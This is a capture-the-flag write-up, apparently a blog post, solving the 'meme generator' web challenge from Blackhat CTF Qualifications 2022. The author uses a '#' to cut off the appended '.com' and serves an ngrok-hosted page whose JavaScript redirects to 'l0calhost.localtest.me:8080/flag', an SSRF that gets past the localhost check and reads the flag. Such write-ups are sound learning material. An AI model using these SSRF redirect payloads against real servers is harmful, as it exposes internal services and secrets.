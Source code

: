 ```yaml
---
title: "meme generator challenge writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/CTFs/black-notes/cover.png"
tags: ["CTF", "SSRF"]
date: 2022-10-01T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


This challenge was in Blackhat CTF Qualifications 2022 and we have participated under the team 0xCha0s, we have managed to solve multiple challenges. this challenge was ranked medium for 250 pts .

<!--more-->

# Enumeration

We are introduced with this page , it takes the search engine (google,duckduckgo,search encrypt) and the Query we want

![error](/assets/images/CTFs/meme-generator/20221001210834.png)

testing the application functions we can try google engine with any word , and we can see the image rendered as follows

![error](/assets/images/CTFs/meme-generator/20221001210954.png)

The request is issued to `/api/generate` with the search engine name and the query

![error](/assets/images/CTFs/meme-generator/20221001211043.png)

Playing with the searchengine i noticed it adds `.com` at the end , so for example sending firefox returns `firefox.com` result

![error](/assets/images/CTFs/meme-generator/20221001211454.png)

now we can take a look at the source code which we can find at `/source` , we can focus on the flag part.

```python
..
...
@app.route("/flag")
def flag():
    # TODO: Fix typo
    if request.remote_addr == "127.0.0.1" and request.url.startswith("http://l0calhost"):
        return os.getenv("FLAG"), 200
    return "Nice try", 200
app.run("0.0.0.0", 8080)
```

It will print the flag only if we visited the `/flag` from the localhost and the notice the requested url must start with `http://l0calhost`

So basically there are a lot of Scenarios which we can take like registering subdomain start with `l0calhost` and stuff. but we can think of other solutions ;)

# Exploitation

We want the application itself to visit the `127.0.0.1:8080/flag` and the url should start with `http://l0calhost` to pass the check

If we fire up ngrok http server and host `index.html` with the content:

```html
<html>
  <script>
    document.write("a");
  </script>
</html>
```

and at the search-engine we can use the ngrok url and add **#** at the end to comment the appended `.com` as we discussed before. and we can run javascript

![error](/assets/images/CTFs/meme-generator/20221001212539.png)

now we can try to redirect the application to visit `127.0.0.1:8080/flag` with the `document.location` method

```js
document.location = "http://127.0.0.1:8080/flag";
```

but as expected it will not pass the check of `request.url.startswith("http://l0calhost"):`

![error](/assets/images/CTFs/meme-generator/20221001212835.png)

so we need some how to make a url which start with the `http://l0calhost` and also redirect the application to the `http://127.0.0.1:8080/flag`. searching for such redirectors we can see [This](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-localhost-with-a-domain-redirection)

```cmd
http://localtest.me  ---> 127.0.0.1
```

So the mentioned domain and all wildcards points to the `127.0.0.1`

![error](/assets/images/CTFs/meme-generator/20221001213134.png)

So if we craft the following url to be redirected to it

```js
document.location = "http://l0calhost.localtest.me:8080/flag";
```

![error](/assets/images/CTFs/meme-generator/20221001213306.png)

Hosting the `index.html` in ngrok with the content

```html
<html>
  <h1>test</h1>
  <script>
    document.location = "http://l0calhost.localtest.me:8080/flag";
  </script>
</html>
```

Sending the request as follows :

![error](/assets/images/CTFs/meme-generator/20221001213419.png)

Finally we get the Flag !

![error](/assets/images/CTFs/meme-generator/20221001213359.png)
